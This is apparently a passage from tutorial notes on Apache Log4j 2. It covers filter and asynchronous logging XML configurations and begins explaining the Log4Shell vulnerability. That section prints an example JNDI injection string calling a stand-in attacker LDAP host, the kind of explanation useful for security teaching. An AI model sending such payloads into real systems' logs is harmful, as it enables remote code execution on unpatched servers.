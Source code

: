 ### Example: Threshold Filter

```xml
<Console name="Console" target="SYSTEM_OUT">
    <ThresholdFilter level="warn" onMatch="ACCEPT" onMismatch="DENY"/>
    <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss} %-5level %logger{36} - %msg%n"/>
</Console>
```

## Asynchronous Logging

### Understanding Asynchronous Loggers
*   Improves performance by logging asynchronously.
*   `<AsyncLogger>` and `<AsyncRoot>` elements.
*   Requires Disruptor library dependency.

### Configuration Example

```xml
<Configuration status="WARN" monitorInterval="30">
    <Appenders>
        <RollingFile name="RollingFile" fileName="logs/async.log"
                     filePattern="logs/async-%d{yyyy-MM-dd}.log">
            <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss} %-5level %logger{36} - %msg%n"/>
            <TimeBasedTriggeringPolicy interval="1" modulate="true"/>
        </RollingFile>
    </Appenders>
    <Loggers>
        <AsyncRoot level="info">
            <AppenderRef ref="RollingFile"/>
        </AsyncRoot>
    </Loggers>
</Configuration>
```

# V. Log4j 2 Vulnerabilities and Security

## Understanding Log4Shell (CVE-2021-44228)

### The Vulnerability
*   Remote Code Execution (RCE) via JNDI injection.
*   Exploitation through specially crafted log messages.
*   Affected versions: Log4j 2.0-beta9 through 2.14.1.

### How it Worked
*   Log4j's support for message lookup substitution (e.g., `${jndi:ldap://attacker.com/evil}`)
*   Java Naming and Directory Interface (JNDI) used to retrieve remote objects.
*   Attacker controls LDAP server, leading to arbitrary code execution.
